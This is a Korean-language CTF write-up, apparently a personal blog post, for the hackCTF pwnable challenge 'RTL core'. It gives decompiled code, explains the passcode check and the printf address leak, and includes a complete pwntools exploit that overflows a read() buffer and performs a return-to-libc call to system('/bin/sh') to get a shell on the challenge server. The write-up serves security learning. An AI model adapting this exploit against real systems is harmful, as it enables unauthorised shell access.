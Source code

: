 ```yaml
---
layout: post
title:  "[hackCTF]RTL core"
date:   2020-02-18
---
```


hackCTF pwnable 16번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-1Ch]

  setvbuf(_ bss_start, 0, 2, 0);
  puts(&::s);
  printf("Passcode: ");
  gets(&s);
  if ( check_passcode((int)&s) == hashcode ) // hashcode = 0C0D9B0A7
  {
    puts(&byte_8048840);
    core();
  }
  else
  {
    puts(&byte_8048881); // "실패!" 출력
  }
  return 0;
}
```

## ida - core
```c
ssize_t core()
{
  int buf; // [esp+Ah] [ebp-3Eh]
  int v2; // [esp+Eh] [ebp-3Ah]
  __ int16 v3; // [esp+12h] [ebp-36h]
  int v4; // [esp+38h] [ebp-10h]
  void * v5; // [esp+3Ch] [ebp-Ch]

  buf = 0;
  v2 = 0;
  v4 = 0;
  memset(
    (void * )((unsigned int)&v3 & 0xFFFFFFFC),
    0,
    4 * (((unsigned int)((char * )&v2 - ((unsigned int)&v3 & 0xFFFFFFFC) + 46) & 0xFFFFFFFC) >> 2));
  v5 = dlsym((void *)0xFFFFFFFF, "printf"); // printf의 주소를 v5에 저장한다
  printf(&format, v5);
  return read(0, &buf, 0x64u); // 취약점!
}
```

## ida - check_passcode
```c
int __cdecl check_passcode(int a1)
{
  int v2; // [esp+8h] [ebp-8h]
  signed int i; // [esp+Ch] [ebp-4h]

  v2 = 0;
  for ( i = 0; i <= 4; ++i )
    v2 += * (_ DWORD * )(4 * i + a1);
  return v2;
}
```

check_passcode 함수의 결과가 hashcode와 동일했을 때 core 함수가 실행된다. 우선 check_passcode 함수를 분석해서 hashcode와 일치하는 값을 만들자.<br><br>
check_passcode 함수에서 a1은 문자열의 주소 값이다. v2는 a1의 4byte int 값, a1+4의 int값 ... a1+16의 int값을 더한 값이 된다. 그럼 hashcode int 값을 5개의 숫자의 값을 더하면 나올 수 있도록 5개의 int 값을 만들자. 이 값을 문자열로 패킹해서 payload(밑의 exploit.py에선 passcode)로 이어붙이자.


![1601](https://drive.google.com/uc?id=1_kPqoebU5Aw4mNrXGRW-qKHWaqFKxVrC)<br>
core 함수를 보면 알 수 있듯이 passcode를 정확히 입력하면 printf의 주소를 출력한다. ASLR이 적용되어 있으므로 printf와 다른 값들의 offset을 구해 RTL기법의 payload를 작성하자. libc를 제공하므로 printf, system, "/bin/sh"의 offset을 구할 수 있다.


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3015)
libc = ELF('./libc.so.6')

printf_offset = libc.symbols['printf']
system_offset = libc.symbols['system']
binsh_offset = list(libc.search('/bin/sh'))[0]

passcode = ""

# passcode

for i in range(4) :
        passcode += p32(0x2691f021)
passcode += p32(0x2691f023)

p.recvuntil("Passcode: ")

p.sendline(passcode)

p.recvuntil("0x")

printf_addr = int(p.recv(8), 16)

system = printf_addr + (system_offset - printf_offset)

binsh = printf_addr + (binsh_offset - printf_offset)

payload = "A"*(0x3E+0x4) + p32(system) + "AAAA" + p32(binsh)

p.send(payload)

p.interactive()
```

## 결과
![1602](https://drive.google.com/uc?id=1ZmxOIzBHfmX-_kGcSrwPUwik3XGzZorY)
